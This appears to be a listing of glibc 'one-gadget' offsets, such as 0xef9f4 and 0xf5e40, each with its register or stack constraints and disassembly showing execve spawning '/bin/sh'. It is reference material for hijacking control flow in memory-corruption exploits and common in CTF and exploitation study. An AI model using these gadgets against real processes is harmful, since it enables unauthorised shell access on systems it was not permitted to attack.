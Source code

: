 ### 0xef9f4

-   `[rsp+0x50] = NULL`

``` asm
00000000000ef9f4 <gai_strerror@@GLIBC_2.2.5+2420>:
  ef9f4:	48 8b 05 bd 34 2d 00 	mov    rax,QWORD PTR [rip+0x2d34bd]        # 3c2eb8 <environ>
  ef9fb:	48 8d 74 24 50       	lea    rsi,[rsp+0x50]
  efa00:	48 8d 3d 84 cb 09 00 	lea    rdi,[rip+0x9cb84]        # 18c58b "/bin/sh"
  efa07:	48 8b 10             	mov    rdx,QWORD PTR [rax]
  efa0a:	e8 e1 c2 fd ff       	call   cbcf0 <execve@@GLIBC_2.2.5>
```

### 0xf0897

-   `[rsp+0x70] = NULL`

``` asm
00000000000f0897 <gai_strerror@@GLIBC_2.2.5+6167>:
   f0897:	48 8b 05 1a 26 2d 00 	mov    rax,QWORD PTR [rip+0x2d261a]        # 3c2eb8 <environ>
   f089e:	48 8d 74 24 70       	lea    rsi,[rsp+0x70]
   f08a3:	48 8d 3d e1 bc 09 00 	lea    rdi,[rip+0x9bce1]        # 18c58b "/bin/sh"
   f08aa:	48 8b 10             	mov    rdx,QWORD PTR [rax]
   f08ad:	e8 3e b4 fd ff       	call   cbcf0 <execve@@GLIBC_2.2.5>
```

### 0xf5e40

-   `[rbp-0xf8] = NULL`

``` asm
00000000000f5e40 <posix_spawnp@@GLIBC_2.15+1888>:
   f5e40:	48 8d 3d 44 67 09 00 	lea    rdi,[rip+0x96744]        # 18c58b "/bin/sh"
   f5e47:	eb bc                	jmp    f5e05 <posix_spawnp@@GLIBC_2.15+0x725>
00000000000f5e05 <posix_spawnp@@GLIBC_2.15+0x725>:
   f5e05:	48 8b 95 08 ff ff ff 	mov    rdx,QWORD PTR [rbp-0xf8]
   f5e0c:	48 89 ce             	mov    rsi,rcx      # should be NULL
   f5e0f:	e8 dc 5e fd ff       	call   cbcf0 <execve@@GLIBC_2.2.5>
```

### 0xcc673

-   `rcx = NULL`
-   `r12 = NULL`

``` asm

00000000000cc673 <execvpe@@GLIBC_2.11+915>:
   cc673:	48 8d 3d 11 ff 0b 00 	lea    rdi,[rip+0xbff11]        # 18c58b "/bin/sh"
   cc67a:	e9 81 fd ff ff       	jmp    cc400 <execvpe@@GLIBC_2.11+0x120>
00000000000cc400 <execvpe@@GLIBC_2.11+0x120>:
   cc400:	4c 89 e2             	mov    rdx,r12
   cc403:	48 89 ce             	mov    rsi,rcx
   cc406:	e8 e5 f8 ff ff       	call   cbcf0 <execve@@GLIBC_2.2.5>
```
